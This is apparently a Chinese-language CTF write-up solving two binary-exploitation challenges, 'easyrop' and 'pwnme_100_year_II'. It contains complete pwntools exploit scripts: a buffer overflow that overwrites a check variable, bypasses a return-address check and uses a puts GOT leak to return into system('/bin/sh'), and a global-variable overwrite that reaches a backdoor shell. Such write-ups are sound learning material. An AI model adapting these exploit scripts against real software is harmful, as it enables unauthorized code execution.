






前段时间做了个安恒新春赛的rop题，然后发现它就是UNCTF2019的easyrop，顺带找到了同类型的NCTF2019的一个题也做了
easyrop
IDA，checksec，file三连



可以看到main函数首先有一个if条件检测需要变量v2等于0x66666666，即可通过检测进入函数sub_804853D()，函数sub_804853D()中存在溢出，那么我们需要把v2变量覆盖为0x66666666即可执行if条件中的函数触发溢出，buf距离ebp的距离是0x2C，变量v2距离ebp的距离是0xC，那么我们只需要从buf开始填充0x2C-0xC个垃圾字符，再跟一个0x66666666，就可以成功覆盖v2变量
然后还有sub_804853D()函数中有一个返回地址的检测，返回地址不能大于0x8050000，那我们直接用ret这个gadget当返回地址绕过检测，即可返回去执行system函数
exp:
from pwn import*
from LibcSearcher import *
context.log_level = 'debug'
#p=remote("183.129.189.60",10011)
p=process("./pwn2")
elf = ELF("./pwn2")
ret = 0x0804839e
p.recvuntil("CTFer!\n")
payload = "\x00"*0x20 + p32(0x66666666)
p.sendline(payload)
p.recvuntil("name?\n")
payload2 = "\x00"*0x14
payload2 += p32(elf.plt['puts']) + p32(0x8048592) + p32(elf.got['puts'])
p.send(payload2)
puts_addr = u32(p.recv(4))
log.success("puts_addr = " + hex(puts_addr))
libc = LibcSearcher('puts',puts_addr)
offset = puts_addr - libc.dump('puts')
sys_addr = offset + libc.dump('system')
log.success("sys_addr:" + hex(sys_addr))
binsh_addr = offset + libc.dump('str_bin_sh')
log.success("binsh_addr:" + hex(binsh_addr))
payload3 = "\x00"*0x14 + p32(ret) + p32(sys_addr) + p32(0xdeadbeef) + p32(binsh_addr)
p.recvuntil("CTFer!\n")
payload = "\x00"*0x20 + p32(0x66666666)
p.send(payload)
#p.recvuntil("name?\n")
p.recv()
p.send(payload3)
p.interactive()通过这题还是学到了东西的，知道了覆盖变量的方法
pwnme_100_year_II
此题是南邮CTF的简单题，但是当时没有做出来，和上面那题有点类似


main函数存在两处检测，检测通不过即执行sub_40087C()退出程序，只要绕过这两处检测成功执行后门函数sub_400861()获得shell
首先是一个字符串比较，只要s1中存在’yes’即为0，即可通过检测。然后是一个数值检测，dword_6010C0等于0x66666666即为0，可通过检测，最终执行sub_400861()
两个变量都可在IDA中查看其地址和相对位置

可以看到s1和dword_6010C0变量相差0x10，那么只要把s1填满0x10个字节即可到dword_6010C0去进行覆盖
EXP:
#coding=utf-8
from pwn import*
context.log_level = 'debug'
io=process("./pwn_me_1")
elf=ELF("./pwn_me_1")
io.recvuntil("?\n")
io.send("yes".ljust(0x10,"\x00") + p64(0x66666666))
io.interactive()这两题虽然简单，但是对于我来说也是学到了新姿势，以前压根不会覆盖变量绕过这种简单的检测